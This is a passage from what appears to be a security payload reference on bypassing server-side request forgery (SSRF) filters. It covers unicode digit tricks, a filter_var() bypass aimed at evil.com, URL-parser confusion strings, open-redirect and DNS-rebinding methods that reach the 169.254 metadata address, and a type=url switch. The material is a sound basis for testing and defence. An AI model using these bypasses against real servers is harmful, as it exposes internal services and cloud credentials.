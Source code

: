 ### Bypass using unicode

In some languages (.NET, Python 3) regex supports unicode by default.
`\d` includes `0123456789` but also `๐๑๒๓๔๕๖๗๘๙`.


### Bypass filter_var() php function

```powershell
0://evil.com:80;http://google.com:80/ 
```

### Bypass against a weak parser

by Orange Tsai ([Blackhat A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf))

```powershell
http://127.1.1.1:80\@127.2.2.2:80/
http://127.1.1.1:80\@@127.2.2.2:80/
http://127.1.1.1:80:\@@127.2.2.2:80/
http://127.1.1.1:80#\@127.2.2.2:80/
```

![https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/Images/WeakParser.png?raw=true](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/Images/WeakParser.jpg?raw=true)

### Bypassing using a redirect
[using a redirect](https://portswigger.net/web-security/ssrf#bypassing-ssrf-filters-via-open-redirection)

```powershell
1. Create a page on a whitelisted host that redirects requests to the SSRF the target URL (e.g. 192.168.0.1)
2. Launch the SSRF pointing to  vulnerable.com/index.php?url=http://YOUR_SERVER_IP
vulnerable.com will fetch YOUR_SERVER_IP which will redirect to 192.168.0.1
```

### Bypassing using type=url

```powershell
Change "type=file" to "type=url"
Paste URL in text field and hit enter
Using this vulnerability users can upload images from any image URL = trigger an SSRF
```

### Bypassing using DNS Rebinding (TOCTOU)

```powershell
Create a domain that change between two IPs. http://1u.ms/ exists for this purpose.
For example to rotate between 1.2.3.4 and 169.254-169.254, use the following domain:
make-1.2.3.4-rebind-169.254-169.254-rr.1u.ms
```

### Bypassing using jar protocol (java only)
